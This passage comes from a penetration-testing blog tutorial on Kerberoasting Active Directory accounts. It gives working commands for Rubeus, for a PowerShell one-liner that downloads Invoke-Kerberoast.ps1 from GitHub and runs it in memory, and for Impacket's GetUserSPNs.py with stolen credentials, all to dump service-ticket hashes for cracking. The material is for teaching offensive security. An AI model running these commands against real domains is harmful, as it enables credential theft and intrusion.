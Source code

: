 	/outfile:C:\Temp\TotallyNotHashes.txt

Roasting a Specific Users or SPN

	PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice

	PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local

There is also the ability to Roast users in a foreign trust domain providing the trust relationships allow you but you can check out the Rubeus Repo for full explanation on that. It’s really cool.

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)Invoke-Kerberoast.ps1

The final script I will talk about in the Windows Section is `Invoke-Kerberoast.ps1` which isn’t nearly as powerful as `Rubeus` or `Powerview` hence why I will not split it up into Enumeration/Exploit like previous sections.

`Invoke-Kerberoast.ps1`. can be Invoked and executed using the below `one-liner`

	PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast

	#Download Invoke-Kerberoast.ps1 into Memory (AMSI May Flag)
	IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")

	#Invoke-Kerberoast and Output to Hashcat Format

	Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)From Linux

Kerberoasting from Linux is a little but different as we are most likely not authenticated to the domain in anyway so will have to pass a stolen Kerberos ticket through for authentication or domain credentials.

In my experience I have found Kerberoasting from a **Domain-Joined Machine** is way way easier and typically hassle free however sometime we don’t have the option.

To enumerate Users with `SPN` value set we can use one of `Impackets` great scripts `GetUserSPN's.py`

*https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py*

If you haven’t heard of Impacket by now it’s a collection of python scripts for attacking Windows and has some seriously dangerous scripts in it’s repo.

Armed with `GetUserSPNs.py` and a already pwned `Domain Users` credentials we can simply run the below

	m0chan@kali:/scripts/> python GetUserSPNs.py m0chanAD/pwneduser:pwnedcreds -outputfile hashes.kerberoast

This outputted file can now be sent to Hashcat to crack, there are alternative means to cracking on Linux but in all my time Hacking I have never once had a good time trying to crack on Linux. I find Hashcat on a Windows machine with NVIDIA cards is the best route (personally).
